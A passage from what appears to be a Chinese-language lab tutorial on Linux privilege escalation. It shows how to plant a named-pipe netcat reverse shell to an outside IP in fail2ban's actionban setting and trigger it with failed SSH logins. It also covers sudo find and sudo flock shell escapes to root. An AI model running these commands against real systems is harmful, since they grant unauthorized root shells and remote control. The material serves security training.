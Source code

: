 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685670574897-865bf908-a119-4a7e-acc5-06cffebc0a24.png#averageHue=%23242632&clientId=ub357bfca-ed9d-4&from=paste&height=62&id=u1c3cd09b&originHeight=78&originWidth=602&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=44875&status=done&style=none&taskId=u9c0a98df-2564-4c3f-b830-307b38c4922&title=&width=481.6)
该目录下定义了，**IP** 被封禁后执行的行为相关脚本。可以在这里自定义恶意脚本，实现提权。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685671583904-f1db6e86-f461-4da3-a609-9e50cfdfbb1d.png#averageHue=%232d3140&clientId=ub357bfca-ed9d-4&from=paste&height=210&id=u9220740d&originHeight=263&originWidth=437&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=135213&status=done&style=none&taskId=u63fafc67-2bb4-4455-bea3-a690afa4c23&title=&width=349.6)
**iptables-multiport.conf **规定了，短时间内尝试登陆失败，IP被封禁后所执行的行为。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685672265369-c7c4ef40-b3a2-409a-8c7d-096c8ae8a250.png#averageHue=%23232533&clientId=ub357bfca-ed9d-4&from=paste&height=63&id=u17c96ed9&originHeight=79&originWidth=943&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=56133&status=done&style=none&taskId=u9d0d02f5-cd7b-406f-ba71-93af2c462d2&title=&width=754.4)
该文件目前尚不可写，但由于该文件所处的目录可写，可利用 **mv, cp **命令更改该文件的属主，使之可写
```bash
mv iptables-multiport.conf iptables-multiport.conf.bak
# 只移动文件，不创建新文件，所以属主 是 root

cp iptables-multiport.conf.bak iptables-multiport.conf
# 创建新文件副本，写入文件，属主变成创建该命令的用户	
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685672575069-dbc1abff-c252-47fd-9c99-be5a0b8473f1.png#averageHue=%23252636&clientId=ub357bfca-ed9d-4&from=paste&height=281&id=uc6166ff3&originHeight=351&originWidth=1034&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=310748&status=done&style=none&taskId=u5c42ca38-9ff7-4ab8-b27e-7942e1517ac&title=&width=827.2)
**actionban **定义了被封后所执行的操作，在这里写上提权语句
```bash
rm /tmp/pipe;
mkfifo /tmp/pipe;
cat /tmp/pipe | bash -i 2>&1 | nc 192.168.65.130 6666 > /tmp/pipe
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685673400637-814afad5-7505-4d26-a31e-3138011d50db.png#averageHue=%23212332&clientId=ub357bfca-ed9d-4&from=paste&height=81&id=ucf9d64dd&originHeight=101&originWidth=1083&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=81989&status=done&style=none&taskId=u490c4f6e-5fee-4f1e-981f-c5c3a2e8386&title=&width=866.4)
注意写完后重启服务，使配置生效
```bash
sudo /etc/init.d/fail2ban restart
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685673869933-7cd9b1d7-2018-496a-818b-c25898b81621.png#averageHue=%23323a4c&clientId=ub357bfca-ed9d-4&from=paste&height=62&id=u5c75a109&originHeight=78&originWidth=800&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=89092&status=done&style=none&taskId=uad3c424b-72c0-4e72-b17a-759d0b1a5ad&title=&width=640)
迅速的多次错误尝试ssh 登录靶机
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685673966055-3bebf8e5-a170-42d3-a474-af11ac514a7d.png#averageHue=%23252939&clientId=ub357bfca-ed9d-4&from=paste&height=396&id=u940afbb4&originHeight=495&originWidth=802&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=339388&status=done&style=none&taskId=u66b76c2d-9c3c-4d70-b236-2f00eec51b5&title=&width=641.6)
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685674035769-74be11cd-22a7-4207-bac9-7e1651833885.png#averageHue=%23292c3c&clientId=ub357bfca-ed9d-4&from=paste&height=329&id=uda8f04bf&originHeight=411&originWidth=741&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=305794&status=done&style=none&taskId=uac50a31c-63d8-4e43-92f3-61eeeb2e184&title=&width=592.8)
但该 shell 是暂时的，过 10s 自动断开。
## 情景二十九 - find
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685599767037-67793b9e-44d6-456f-ac9c-9c4c4c28518f.png#averageHue=%232a344a&clientId=ucada80b3-aeb4-4&from=paste&height=65&id=u75206f18&originHeight=81&originWidth=503&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=56490&status=done&style=none&taskId=u184a4e0e-d178-433a-b213-2bb83b3b2b9&title=&width=402.4)
```bash
sudo find . -exec /bin/bash \; -quit

# -exec 后接 linux 命令
# \; 代表 传递给 -exec 参数的命令结束符
# 因为 ; 在系统时代表命令的分割，前面 加 \代表转义。
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685607080784-d93e0558-6652-4f16-aad4-bfe94c127c56.png#averageHue=%2357585e&clientId=ucada80b3-aeb4-4&from=paste&height=183&id=ubc29df04&originHeight=229&originWidth=777&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47592&status=done&style=none&taskId=u31f370ea-d5d4-4a4b-bae1-a2418f12d85&title=&width=621.6)
## 情景三十 - flock
**flock : file lock**；linux 中管理文件锁定的实用程序，协调多个进程对文件和文件系统的访问。**防止多进程对同一个文件读取修改所产生的问题。**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685608527786-b38482a5-e288-43d3-ae02-389698844a93.png#averageHue=%23606166&clientId=ucada80b3-aeb4-4&from=paste&height=54&id=ubf627811&originHeight=67&originWidth=485&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=13523&status=done&style=none&taskId=uf7b54dea-a120-4537-a025-5e7b31209b1&title=&width=388)
```bash
sudo flock -u / /bin/bash

# -u unlock 
# 意思是 解锁根目录下的所有文件，并交给 /bin/bash 操作
# 因此获得 root 的 shell
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685609360574-e32abfd1-418b-4350-b87e-9cb8fe46da42.png#averageHue=%23232731&clientId=ucada80b3-aeb4-4&from=paste&height=179&id=uc52fff46&originHeight=224&originWidth=667&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=65454&status=done&style=none&taskId=u6813c7b0-6a26-4de8-be8d-28ea2179903&title=&width=533.6)
## 情景三十一 - ftp